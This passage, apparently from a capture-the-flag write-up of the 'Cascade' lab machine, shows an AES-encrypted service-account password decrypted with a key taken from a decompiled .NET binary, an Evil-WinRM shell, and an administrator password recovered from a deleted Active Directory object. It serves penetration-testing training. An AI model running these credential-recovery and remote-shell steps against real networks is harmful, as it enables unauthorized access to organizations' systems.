        "Id"    INTEGER PRIMARY KEY AUTOINCREMENT,
        "Username"      TEXT,
        "Name"  TEXT,
        "DistinguishedName"     TEXT
);

sqlite> Select * from Ldap;
1|ArkSvc|BQO5l5Kj9MdErXx6Q6AGOw==|cascade.local
```

We got the encrypted password for the user `ArkSvc`. 
###### `Cracking AES-128 Password - Path 1`
So let's first decompiled the application. i am going to open `CascAudit.exe`, `CascCrypto.dll`, `System.Data.SQLite.dll`, `System.Data.SQLite.EF6.dll` and `x64\SQLite.Interop.dll` in Dnspy.


So here we can see under the Main Module that we have got the password. I tried out this password but it didn't worked. 

Here we got the AES Key. So now we have following three things.
1.  Encrypted Password for the user `ArkSvc` = `BQO5l5Kj9MdErXx6Q6AGOw==`
2.  An Encrypted string that was used as a password to create SQL Connection in CascAudit.exe = `c4scadek3y654321`
3.  AES IV Value = `1tdyjCbY1Ix49842`

One way to crack the password for the user `ArkSvc` is to use [Cyber Chef](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true,false)AES_Decrypt(%7B'option':'UTF8','string':'c4scadek3y654321'%7D,%7B'option':'UTF8','string':'1tdyjCbY1Ix49842'%7D,'CBC','Raw','Raw',%7B'option':'Hex','string':''%7D,%7B'option':'Hex','string':''%7D)&input=QlFPNWw1S2o5TWRFclh4NlE2QUdPdz09) 

The password we got is `w3lc0meFr31nd`. But this is a loose way to get the password.
###### `Cracking AES-128 Password - Path 2 - Debugging App`
Once you open all the files with DnSpy, You can put a break point at Line 53 where the SQL Connection is closed 
`sqliteConnection.Close()`
And Click Debug --> Start Debugging. And here are my Debug Parameter. **Remember** Audit.db is an argument in `RunAudit.bat`. We are going to provide the same argument here before start debugging.




Once the breakpoint hit, it will decrypt the password for us.

###### `Cracking AES-128 Password - Path 2 - Coding - The OG Way`
```
┌──(root㉿kali)-[/home/ringbuffer/Downloads/Cascade.htb]
└─# cat AES128_Decrypt.py 
import pyaes
from base64 import b64decode
key = b"c4scadek3y654321"
iv = b"1tdyjCbY1Ix49842"
aes = pyaes.AESModeOfOperationCBC(key, iv = iv)
decrypted = aes.decrypt(b64decode('BQO5l5Kj9MdErXx6Q6AGOw=='))
print(decrypted.decode())
 
┌──(root㉿kali)-[/home/ringbuffer/Downloads/Cascade.htb]
└─# python3 AES128_Decrypt.py
w3lc0meFr31nd
```

###### `Shell as ArkSvc`
```
# evil-winrm -i 10.10.10.182 -u 'ArkSvc' -p 'w3lc0meFr31nd'                     
 
*Evil-WinRM* PS C:\Users\arksvc\Documents>
```

###### `AD Recycle Bin Group`
We know that we will have to deal with AD Recycle Bin Group at some point. Checking out the `whoami /priv`, reveals that the user `ArkSvc` is part of the `AD Recycle Bin Group`
```
*Evil-WinRM* PS C:\Users\arksvc\Desktop> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                            Attributes
=========================================== ================ ============================================== ===============================================================
Everyone                                    Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
CASCADE\Data Share                          Alias            S-1-5-21-3332504370-1206983947-1165150453-1138 Mandatory group, Enabled by default, Enabled group, Local Group
CASCADE\IT                                  Alias            S-1-5-21-3332504370-1206983947-1165150453-1113 Mandatory group, Enabled by default, Enabled group, Local Group
CASCADE\AD Recycle Bin                      Alias            S-1-5-21-3332504370-1206983947-1165150453-1119 Mandatory group, Enabled by default, Enabled group, Local Group
CASCADE\Remote Management Users             Alias            S-1-5-21-3332504370-1206983947-1165150453-1126 Mandatory group, Enabled by default, Enabled group, Local Group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10                                    Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448
```

Here are some details about `AD Recycle Bin` Windows Group
```
Starting in Windows Server 2008 R2, Active Directory now implements a true recycle bin. No longer will you need an [authoritative restore](http://support.microsoft.com/default.aspx?scid=kb;EN-US;840001) to recover deleted users, groups, OU’s, or other objects. Instead, it is now possible to use PowerShell commands to bring back objects with all their attributes, backlinks, group memberships, and metadata
```

###### `Using Get-ADObject to list deleted items`
```
*Evil-WinRM* PS C:\ProgramData\temp> Get-ADObject -filter 'isDeleted -eq $true' -includeDeletedObjects

Deleted           : True
DistinguishedName : CN=Deleted Objects,DC=cascade,DC=local
Name              : Deleted Objects
ObjectClass       : container
ObjectGUID        : 51de9801-3625-4ac2-a605-d6bd71617681

Deleted           : True
DistinguishedName : CN=CASC-WS1\0ADEL:6d97daa4-2e82-4946-a11e-f91fa18bfabe,CN=Deleted Objects,DC=cascade,DC=local
Name              : CASC-WS1
                    DEL:6d97daa4-2e82-4946-a11e-f91fa18bfabe
ObjectClass       : computer
ObjectGUID        : 6d97daa4-2e82-4946-a11e-f91fa18bfabe

Deleted           : True
DistinguishedName : CN=Scheduled Tasks\0ADEL:13375728-5ddb-4137-b8b8-b9041d1d3fd2,CN=Deleted Objects,DC=cascade,DC=local
Name              : Scheduled Tasks
                    DEL:13375728-5ddb-4137-b8b8-b9041d1d3fd2
ObjectClass       : group
ObjectGUID        : 13375728-5ddb-4137-b8b8-b9041d1d3fd2

Deleted           : True
DistinguishedName : CN={A403B701-A528-4685-A816-FDEE32BDDCBA}\0ADEL:ff5c2fdc-cc11-44e3-ae4c-071aab2ccc6e,CN=Deleted Objects,DC=cascade,DC=local
Name              : {A403B701-A528-4685-A816-FDEE32BDDCBA}
                    DEL:ff5c2fdc-cc11-44e3-ae4c-071aab2ccc6e
ObjectClass       : groupPolicyContainer
ObjectGUID        : ff5c2fdc-cc11-44e3-ae4c-071aab2ccc6e

Deleted           : True
DistinguishedName : CN=Machine\0ADEL:93c23674-e411-400b-bb9f-c0340bda5a34,CN=Deleted Objects,DC=cascade,DC=local
Name              : Machine
                    DEL:93c23674-e411-400b-bb9f-c0340bda5a34
ObjectClass       : container
ObjectGUID        : 93c23674-e411-400b-bb9f-c0340bda5a34

Deleted           : True
DistinguishedName : CN=User\0ADEL:746385f2-e3a0-4252-b83a-5a206da0ed88,CN=Deleted Objects,DC=cascade,DC=local
Name              : User
                    DEL:746385f2-e3a0-4252-b83a-5a206da0ed88
ObjectClass       : container
ObjectGUID        : 746385f2-e3a0-4252-b83a-5a206da0ed88

Deleted           : True
DistinguishedName : CN=TempAdmin\0ADEL:f0cc344d-31e0-4866-bceb-a842791ca059,CN=Deleted Objects,DC=cascade,DC=local
Name              : TempAdmin
                    DEL:f0cc344d-31e0-4866-bceb-a842791ca059
ObjectClass       : user
ObjectGUID        : f0cc344d-31e0-4866-bceb-a842791ca059
```

Oh! `TempAdmin`. **Recalling** our SMB note which says that there was a `TempAdmin` account which uses the same password as the administrator. We will need to recover that now.

```
*Evil-WinRM* PS C:\Users\arksvc\Documents> Get-ADObject -filter { SAMAccountName -eq "TempAdmin" } -includeDeletedObjects -Properties *

accountExpires                  : 9223372036854775807
badPasswordTime                 : 0
badPwdCount                     : 0
CanonicalName                   : cascade.local/Deleted Objects/TempAdmin
                                  DEL:f0cc344d-31e0-4866-bceb-a842791ca059
cascadeLegacyPwd                : YmFDVDNyMWFOMDBkbGVz
CN                              : TempAdmin
                                  DEL:f0cc344d-31e0-4866-bceb-a842791ca059
codePage                        : 0
countryCode                     : 0
Created                         : 1/27/2020 3:23:08 AM
createTimeStamp                 : 1/27/2020 3:23:08 AM
Deleted                         : True
Description                     :
DisplayName                     : TempAdmin
DistinguishedName               : CN=TempAdmin\0ADEL:f0cc344d-31e0-4866-bceb-a842791ca059,CN=Deleted Objects,DC=cascade,DC=local
dSCorePropagationData           : {1/27/2020 3:23:08 AM, 1/1/1601 12:00:00 AM}
givenName                       : TempAdmin
instanceType                    : 4
isDeleted                       : True
LastKnownParent                 : OU=Users,OU=UK,DC=cascade,DC=local
lastLogoff                      : 0
lastLogon                       : 0
logonCount                      : 0
Modified                        : 1/27/2020 3:24:34 AM
modifyTimeStamp                 : 1/27/2020 3:24:34 AM
msDS-LastKnownRDN               : TempAdmin
Name                            : TempAdmin
                                  DEL:f0cc344d-31e0-4866-bceb-a842791ca059
nTSecurityDescriptor            : System.DirectoryServices.ActiveDirectorySecurity
ObjectCategory                  :
ObjectClass                     : user
ObjectGUID                      : f0cc344d-31e0-4866-bceb-a842791ca059
objectSid                       : S-1-5-21-3332504370-1206983947-1165150453-1136
primaryGroupID                  : 513
ProtectedFromAccidentalDeletion : False
pwdLastSet                      : 132245689883479503
sAMAccountName                  : TempAdmin
sDRightsEffective               : 0
userAccountControl              : 66048
userPrincipalName               : TempAdmin@cascade.local
uSNChanged                      : 237705
uSNCreated                      : 237695
whenChanged                     : 1/27/2020 3:24:34 AM
whenCreated                     : 1/27/2020 3:23:08 AM

```

The `cascadeLegacyPWD` field above reveals the Base64 Encoded Admin password
```
┌──(root㉿kali)-[/home/ringbuffer/Downloads/Cascade.htb]
└─# echo 'YmFDVDNyMWFOMDBkbGVz' | base64 -d                      
baCT3r1aN00dles
```

###### `Grabbing Root Flag`
```
# evil-winrm -i 10.10.10.182 -u 'administrator' -p 'baCT3r1aN00dles'
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
cascade\administrator

```

Grab Root Flag